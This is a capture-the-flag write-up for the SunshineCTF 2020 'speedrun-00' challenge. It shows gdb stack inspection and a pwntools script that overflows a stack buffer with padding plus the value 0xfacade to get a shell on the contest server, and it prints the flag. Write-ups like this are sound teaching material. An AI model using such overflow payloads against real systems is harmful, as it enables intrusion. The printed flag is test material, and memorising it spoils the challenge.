




# speedrun-00
Points: **10 points**

nc chal.2020.sunshinectf.org 30000

## Sanic mode
My friend went ahead on that one, he told me it was a pwn chall and sent me the decompiled code, we started using ghidra-headless, he told me it was a buffer-overflow vuln and that we had to write a specific sequence to the stack.

Let's go, here's the main function:



As we have to adjust the padding to write, I launched it on gdb and sent a bunch of A's and checked the stack just before the first comparison:

```bash
$ pad 56
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
$ gdb ./chall_00
gdb-peda $ b* main+37
gdb-peda $ r 
Starting program: /hdd/ctf/sunshine/speedrun-00/chall_00
This is the only one
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

Here's the disassemble of gdb and the stack:





We are missing just 4 bytes, so we append 4 chars and then we have to write _0xfacade_. 

So, time to write the exploit. My friend that tried the chall earlier, successfully got the shell, but couldn't send commands because the file descriptor of the shell was closing, that's why we are going to use pwntools, but if you want to try it by hand, sending the payload via nc, using bash:

```bash
$ (echo some-payload ; cat) | nc chal.2020.sunshinectf.org 30000
```

Got it from: https://youtu.be/HSlhY4Uy8SA 

my pwntools code:

```python
#!/usr/bin/env python
from pwn import *

e = ELF('chall_00')
# io = e.process()
io = remote('chal.2020.sunshinectf.org', 30000)
# context.terminal = ['tmux', 'splitw','-h']
# gdb.attach(io)

io.recvuntil('one\n')

payload = b"A" * 56 + b"B"*4 + p32(0xfacade)
io.sendline(payload)

io.interactive()

```



## Flag
sun{burn-it-down-6208bbc96c9ffce4}
